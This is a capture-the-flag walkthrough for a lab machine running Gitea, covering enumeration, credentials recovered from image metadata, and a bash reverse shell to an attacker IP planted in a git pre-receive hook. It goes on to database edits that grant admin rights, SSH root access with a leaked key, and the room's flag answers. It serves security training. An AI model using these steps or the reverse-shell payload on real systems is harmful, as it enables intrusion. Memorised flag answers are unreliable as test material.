# Git And Crumpets

* IP = 10.10.21.18

## Enumeration and Scanning:

### Scan for Open Ports:

* Nmap to scan and discover open ports on the server:`nmap -sC -sV -vv $IP`
* Nmap Scan Results:
```bash
PORT     STATE  SERVICE    REASON       VERSION
22/tcp   open   ssh        syn-ack      OpenSSH 8.0 (protocol 2.0)
80/tcp   open   http       syn-ack      nginx
|_http-favicon: Unknown favicon MD5: 6A7F7C90FDB7FE26DB324F5BA6859594
| http-title: Hello, World
|_Requested resource was http://10.10.230.151/index.html
|_http-trane-info: Problem with XML parsing of /evox/about
9090/tcp closed zeus-admin conn-refused

```
### Enumerating The Webpage:

* When the website is opened in browser it redirects to <a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ">this page</a>.
* Hence to trace the actual webpage, and the redirects cURL(a command-line tool) must be used with a `-v` or verbose switch like this:`curl -v http://IP/`.
* The traced website is as follows:<br>

* As it's indicated, add the following line to `/etc/hosts` file of local machine:<br>
`10.10.21.18  git.git-and-crumpets.thm`
* Now, when the link, "http://git.git-and-crumpets.thm" is opened in browser, a legit webpage of `gitea` opens:<br>

* Registered a new account like:<br>

* Now logged in with the given creds and found the repository, `scones/cant-touch-this`, only one of the commits looked interesting:<br>

* According to the commit message, downloaded the avatar of `scones` user:<br>
<br>
* Used `exiftool` on the image gives this results:<br>

* Logged out from the new account and logged in with these creds:`scones:Password` to `scones` account.

### Vulnerabilities/Findings:

* These references led to find the actual vulnerability of the website(i.e. **Gitea**):
```
https://nvd.nist.gov/vuln/detail/CVE-2020-14144
https://github.com/PandatiX/CVE-2021-28378
```

## Exploitation/Gaining Access:

### Getting Initial Foothold:

* Navigated to `Git Hooks` of the settings of the repository:<br>

* The `pre-receive` script looked like this:<br>

* Used the bash reverse shell payload from <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">pentestmonkey</a> and modified the `pre-receive` script as:
```bash
bash -i >& /dev/tcp/10.4.50.128/7777 0>&1
```
* On the other hand, started a netcat listener with same port:`nc -lnvp 7777`.
* Now making any commit to the repository,:<br>

* Brings a reverse shell to the netcat listner:<br>


### Elevating the Shell:

* Elevated the reverse shell with:
```bash
/usr/bin/script -qc /bin/bash /dev/null
Ctrl+Z
fg
export TERM=xterm
```
* Navigated to home directory of `git` user and found first flag, encoded with base64:<br>

* Decode with `base64 -d`.

## Post Exploitation

* Searched for all directories/files owned by `git` user with:<br>
`find / -xdev -user git 2> /dev/null`
* Many files/directories are owned by git user but only `/var/lib/gitea` stood out.
* Directory contents:

```bash
cd /var/lib/gitea
ls -la
total 4
drwxr-xr-x.  5 git  git    57 Apr 15 13:12 .
drwxr-xr-x. 27 root root 4096 Apr 15 11:32 ..
drwxr-x---.  2 git  git     6 Apr 14 09:46 custom
drwxr-x---. 11 git  git   170 Apr 17 23:37 data
lrwxrwxrwx.  1 git  git    15 Apr 15 13:12 log -> /var/log/gitea/
drwxr-xr-x.  7 git  git    89 Apr 14 18:09 public
```
* The `/var/lib/gitea/data` directory contents:<br>


* The file `gitea.db`, a sqlite3 file stood out interesting, checked out all tables with:`.tables`
* Contents of `user` table:( Used the command `select * from user;`)<br>

* Schemas used on the `user` table:<br>

* Noted the `is_admin` attribute of each user. Users `root` and `hydra` have the attribute set to 1. `scones` to 0.
* Next, contents of `repository` table:<br>

* And the schemas used on the table:<br>

* Noted the `is_private` attribute of each repository. Othe than the `cant-touch-this` repository all are set to 1.
* Modified the Database as stated:
```SQL
UPDATE user SET is_admin=1 where id=3;
UPDATE repository SET is_private=0 WHERE name='backup';
```

## Privilege Escalation:

* Logged out of the shell, logged out from `scones` account on the webpage; logged in again.
* New Feature is added, `Site Administration`, 2 other repositories are visible now ("http://git.git-and-crumpets.thm/admin/repos"):<br>

* `groot/backup` repository has the following commit log:<br>

* Second commit, `Add .ssh/Sup3rS3cur3` has a private ssh key:<br>

* Used the above key file and a passphrase,`Sup3rS3cur3` to ssh into the server as root with:`ssh -i id_rsa root@IP`
* Finally navigated to /root to find `base64` encoded flag, decode with:`base64 -d`.

## Questions/Tasks:

1. What is user flag?

**Ans-thm{fd7ab9ffd409064f257cd70cf3d6aa16}**

2. What is root flag?

**Ans-thm{6320228dd9e315f283b75887240dc6a1}**
